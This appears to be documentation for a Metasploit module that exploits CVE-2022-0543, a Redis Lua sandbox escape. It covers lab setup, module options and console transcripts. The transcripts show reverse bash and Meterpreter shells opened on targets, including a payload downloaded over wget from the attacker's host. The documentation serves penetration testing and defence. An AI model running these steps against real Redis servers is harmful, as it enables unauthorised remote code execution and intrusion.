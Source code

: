 ## Vulnerable Application

### Description

This module exploits CVE-2022-0543, a Lua-based Redis sandbox escape. The
vulnerability was introduced by Debian and Ubuntu Redis packages that
insufficiently sanitized the Lua environment. The maintainers failed to
disable the package interface, allowing attackers to load arbitrary libraries.

On a typical `redis` deployment (not docker), this module achieves execution
as the `redis` user. Debian/Ubuntu packages run Redis using systemd with the
"MemoryDenyWriteExecute" permission, which limits some of what an attacker can
do. For example, staged meterpreter will fail when attempting to use mprotect.
As such, stageless meterpreter is the preferred payload.

Redis can be configured with authentication or not. This module will work with
either configuration (provided you provide the correct authentication details).
This vulnerability could theoretically be exploited across a few architectures:
i386, arm, ppc, etc. However, the module only supports x86_64, which is likely
to be the most popular version.

### Setup

I'll explain two setup scenarios. I'll first go through Docker since it's so easy
but I don't think it's realistically the most likely deployment. I'll then
explain an Ubuntu 20.04 installation.

#### Docker

This will deploy an official Ubuntu Redis image. To get a vulnerable image do the
following:

1. `docker pull ubuntu/redis:6.0-21.04_edge`
1. `docker run -d --name vuln_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:6.0-21.04_edge`

The vulnerable Redis will now be on port 6379. Note that this version uses a password.

To deploy a patched version, do the following:

1. `docker pull ubuntu/redis:latest`
1. `sudo docker run -d --name fixed_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:latest`

#### Ubuntu 20.04

1. `sudo apt-get install redis-tools=5:5.0.7-2`
1. `sudo apt-get install redis-server=5:5.0.7-2`
1. `sudo nano /etc/redis/redis.conf` -> Comment out "bind" and change "protected-mode" to no.
1. `sudo service redis restart`

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/redis/redis_debian_sandbox_escape`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: If needed - `set PASSWORD <password>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module receives a reverse shell

## Options

### LUA_LIB

The path to the Lua library to load. The default, `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`,
appears to be valid for both Ubuntu and Debian but I made it optional in case some edge
case crops up that I hadn't considered.

### PASSWORD

The password, if needed, to use with the Redis AUTH command.

## Scenarios

### Successful exploitation of Redis on Ubuntu 20.04 for reverse bash shell

```
msf > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 10.0.0.22:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 10.0.0.22:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60844 ) at 2022-04-26 03:17:39 -0700

id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis on Ubuntu 20.04 for reverse meterpreter

```
msf > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/redis/redis_debian_sandbox_escape) > set target 1
target => 1
msf exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] 10.0.0.22:6379        - Using URL: http://10.0.0.2:8080/mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Client 10.0.0.22 (Wget/1.20.3 (linux-gnu)) requested /mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Sending payload to 10.0.0.22 (Wget/1.20.3 (linux-gnu))
[+] 10.0.0.22:6379        - Exploit complete!
[*] 10.0.0.22:6379        - Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60848 ) at 2022-04-26 03:21:22 -0700
[*] 10.0.0.22:6379        - Server stopped.

meterpreter > shell
Process 13120 created.
Channel 1 created.
id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis in Ubuntu Docker for reverse bash shell

```
msf > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD mypassword
PASSWORD => mypassword
msf exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 127.0.0.1:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 127.0.0.1:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 127.0.0.1:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 127.0.0.1:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 172.17.0.2:33148 ) at 2022-04-26 03:23:32 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux 9c7526769ad1 5.13.0-40-generic #45-Ubuntu SMP Tue Mar 29 14:48:14 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Failed exploitation due to wrong password

```
msf > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD lolwat
PASSWORD => lolwat
msf exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 127.0.0.1:6379 - Cannot reliably check exploitability. Failed authentication.
msf exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of patched Redis on Debian 11

```
msf > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.24
RHOST => 10.0.0.24
msf exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.24:6379 - The target is not exploitable. Could not execute 'id' on the remote target.
msf exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of not-vulnerable Ubuntu 18.04 i386.

```
msf > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.25
RHOST => 10.0.0.25
msf exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.25:6379 - The target is not exploitable. The reported version is unaffected: 4.0.9
msf exploit(linux/redis/redis_debian_sandbox_escape) >
```
